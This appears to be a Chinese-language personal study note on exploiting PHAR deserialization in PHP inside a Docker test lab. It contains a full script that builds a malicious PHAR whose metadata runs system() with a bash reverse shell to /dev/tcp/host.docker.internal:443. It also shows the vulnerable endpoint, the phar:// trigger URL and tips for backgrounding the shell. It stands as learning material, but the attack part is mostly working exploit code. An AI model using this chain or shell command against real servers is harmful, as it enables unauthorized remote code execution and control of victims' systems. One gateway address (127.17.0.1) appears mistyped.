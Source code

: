 # PHAR Deserialization & Reverse Shell Exploitation in PHP (Docker Test)

這篇筆記整理了從 PHAR 反序列化漏洞原理，到在 Docker 測試環境下成功觸發 reverse shell 的完整流程。

---

## 1. 漏洞背景

PHAR 文件可以包含序列化的 metadata，PHP 在處理 **phar://** 協議時，如果對 PHAR 執行文件操作（例如 `file_get_contents`、`copy` 等），就會自動 **反序列化 metadata**。若 metadata 中包含可被魔法方法利用的 POP chain，攻擊者就能達成 RCE（Remote Code Execution）。

### 觸發條件

1. Web 應用允許上傳 PHAR 文件（或使用 PHAR polyglot）。
2. PHP 有呼叫文件操作函數 (`file_get_contents`, `file_exists`, `copy`...)。
3. 存在可利用的 class（包含 magic method，如 `__destruct` 或 `__wakeup`）。

---

## 2. 漏洞原理
以下程式碼表示模擬一些可能會出現在常用框架中的第三方函式庫
```php
class PDFGenerator {
    public $callback;
    public $fileName;

    function __destruct() {
        call_user_func($this->callback, $this->fileName);
    }
}
```
`__destruct()` 中使用 `call_user_func()` 呼叫 `$callback`，並傳 `$fileName`。

我們可以透過 `PHAR metadata` 修改這兩個屬性，將 `$callback` 指向 `system`，`$fileName` 設置命令。

---

## 3. 攻擊流程
### 3.1 建立 PHAR 文件

```php
<?php
class PDFGenerator {}

// POP chain payload
$evil = new PDFGenerator();
$evil->callback = "system";
$evil->fileName = "bash -c 'bash -i >& /dev/tcp/host.docker.internal/443 0>&1' &";

// 刪除舊檔案
@unlink("evil.phar");

// 建立 PHAR
$phar = new Phar("evil.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->addFromString("dummy.txt", "dummy");
$phar->setMetadata($evil);
$phar->stopBuffering();
```


## 3.2 觸發反序列化
- PHP 端範例：
```php
<?php
$file = $_GET['file'];
echo file_get_contents($file);
```

- 使用 GET 參數：
`http://example.com/index.php?file=phar:///var/www/html/uploads/evil.phar/dummy.txt`

訪問時會自動反序列化 PHAR metadata，觸發 `__destruct()`。

---
## 4. Docker 測試注意點

- **host.docker.internal**：在 macOS / Windows Docker Desktop 可用；Linux 可以用預設的 `127.17.0.1`。
- **stdout / stdin 卡住問題**：
  - `bash -i` 在 web server 下容易卡住，使用背景化 `&` 或 `nohup` 解決。 
  - 範例 payload：
    ```php
    $evil->fileName = "bash -c 'bash -i >& /dev/tcp/host.docker.internal/443 0>&1' &";
    ```

---

## 5. 完整流程總結

1. 確認目標 PHP 有文件操作函數。
2. 找到可利用 class（有 magic method 可被反序列化觸發）。
3. 建立 PHAR 文件：
   - 添加 dummy.txt
   - 設置 metadata 為可控制的 class 物件
4. 訪問 `phar://` URL，觸發反序列化。
5. 使用背景化命令或 `nohup` 避免 web server 阻塞。
6. 測試 reverse shell 連線。

---

## 6. 難點
- 一開始不理解POP (Property Oriented Programming) 的原理不知道是需要有相應的 class 而不是任意class都可以執行 [這篇文章](https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability) 看懂之後才知道 POP 的確切機制以及利用方法
- 建立這個reverse shell的難點最大的其實是由於`call_user_func`無法持續執行互動式操作（原理待補充）所以要加上 `&` 使其能夠在背景執行（但是網頁會一直loading直到reverse shell被關閉 而且就算網頁關閉reverse shell任然可以執行

## 7. 參考資料
https://ithelp.ithome.com.tw/articles/10279849
https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability
https://www.keysight.com/blogs/en/tech/nwvs/2020/07/23/exploiting-php-phar-deserialization-vulnerabilities-part-1
https://www.anquanke.com/post/id/162506
https://forum.butian.net/share/2678